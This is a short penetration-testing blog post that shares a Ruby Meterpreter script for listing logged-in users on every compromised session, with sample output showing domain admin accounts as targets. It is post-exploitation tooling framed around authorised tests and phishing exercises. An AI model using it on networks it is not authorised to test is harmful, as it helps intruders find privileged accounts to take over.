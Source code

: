 = Who Is Logged In? A Quick Way To Pick Your Targets
:hp-tags: meterpreter

Say you go for the 500+ shells on an internal test or your phishing exersice goes way better than you thought. Well you need to get your bearings quickly and going into each shell and doing a ps, then looking through the list for all the users logged in is a bit of a pain and defintely not ideal.

I wrote a quick script that you can throw in the meterpreter scripts folder to aide you a bit with this:

```ruby    
users = []
client.sys.process.each_process do |x|
        users << x["user"]
end

users.sort!
users.uniq!
users.delete_if {|x| x =~ /^NT AUTHORITY/}
users.delete_if {|x| x == ""}
loggedin = users.join(', ')
print_status(loggedin)
```

All it does is automate the process I said above, used in concert with the 'sessions -s' command makes life a bit easier:

```    
msf  post(enum_logged_on) > sessions -s loggedin
[*] Running script loggedin on all sessions...
[*] Session 1 (victimgatewayaddress:21638):
[*] DOMAIN\User1
[*] Session 2 (victimgatewayaddress:39900):
[*] DOMAIN\AdminUser1
[*] Session 3 (victimgatewayaddress:59395):
[*] DOMAIN\User5
[*] Session 5 (victimgatewayaddress:21639):
[*] DOMAIN\User20
[*] Session 6 (victimgatewayaddress:21640):
[*] COMPUTERNAME\Administrator, DOMAIN2\AdminUser7
[*] Session 7 (victimgatewayaddress:39901):
[*] DOMAIN\User55
```    

You can see from this output I probably want to start with session 2, and probably 6 as well as it seems to be on another domain and an admin to boot. The example is small but on a larger scale this can start to be much more important for time management. I'm sure there are some of you out there that realized after spending hours with another session that you had one with a DA signed into it on a different system.

Just a disclaimer, this ONLY shows who is logged into the sessions you have, not remote systems.
